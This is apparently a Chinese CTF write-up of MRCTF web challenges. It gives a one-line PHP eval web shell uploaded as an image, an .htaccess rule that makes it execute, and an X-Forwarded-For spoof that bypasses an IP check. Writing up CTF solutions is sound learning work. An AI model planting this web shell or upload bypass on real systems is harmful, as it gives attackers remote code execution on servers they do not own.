可以看看我自己的博客

[由MRCTF学习php反序列化--pop链的构造_unexpectedthing的博客-CSDN博客](https://blog.csdn.net/unexpectedthing/article/details/120203484)

##  你传你妈呢

先传一个图片马，可以成功上传

```php
<?php @eval($_POST[1]); ?>
```

再传一个`.htaccess`文件

```php
<FilesMatch "webshell">
SetHandler application/x-httpd-php
</FilesMatch>
```

蚁剑连接，flag在根目录

[关于htaccessd的具体总结](https://blog.csdn.net/solitudi/article/details/116666720?spm=1001.2014.3001.5502)

##  Pywebsite

打开网页，F12发现了js代码

```javascript
function enc(code){
      hash = hex_md5(code);
      return hash;
    }
    function validate(){
      var code = document.getElementById("vcode").value;
      if (code != ""){
        if(hex_md5(code) == "0cd4da0223c0b280829dc3ea458d655c"){
          alert("您通过了验证！");
          window.location = "./flag.php"
        }else{
          alert("你的授权码不正确！");
        }
      }else{
        alert("请输入授权码");
      }
      
    }
```

访问flag.php,得到一个网页，得到一个重要信息，ip地址

我们bp抓包

添加：X-Forwarded-For: 127.0.0.1
